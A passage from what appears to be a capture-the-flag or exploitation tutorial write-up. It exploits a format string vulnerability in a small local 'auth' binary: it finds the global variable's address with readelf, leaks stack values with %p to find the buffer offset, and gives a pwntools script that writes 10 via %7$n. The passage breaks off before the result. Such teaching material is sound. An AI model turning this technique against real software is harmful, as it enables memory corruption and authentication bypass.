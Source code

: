 ```c
    if(auth == 10) {
        puts("Authenticated!");
    }
}
```

Simple - we need to overwrite the variable `auth` with the value 10. Format string vulnerability is obvious, but there's also no buffer overflow due to a secure `fgets`.

#### Work out the location of auth

As it's a global variable, it's within the binary itself. We can check the location using `readelf` to check for symbols.

```bash
$ readelf -s auth | grep auth
    34: 00000000     0 FILE    LOCAL  DEFAULT  ABS auth.c
    57: 0804c028     4 OBJECT  GLOBAL DEFAULT   24 auth
```

The location of `auth` is `0x0804c028`.

#### Writing the Exploit

We're lucky there are no null bytes, so there's no need to change the order.

```bash
$ ./auth 

Password: 
%p %p %p %p %p %p %p %p %p
0x64 0xf7f9f580 0x8049199 (nil) 0x1 0xf7ff5980 0x25207025 0x70252070 0x20702520
```

Buffer is the 7th `%p`.

```python
from pwn import *

AUTH = 0x804c028

p = process('./auth')

payload = p32(AUTH)
payload += b'|' * 6         # We need to write the value 10, AUTH is 4 bytes, so we need 6 more for %n
payload += b'%7$n'


print(p.clean().decode('latin-1'))
p.sendline(payload)
print(p.clean().decode('latin-1'))
```

And easy peasy:
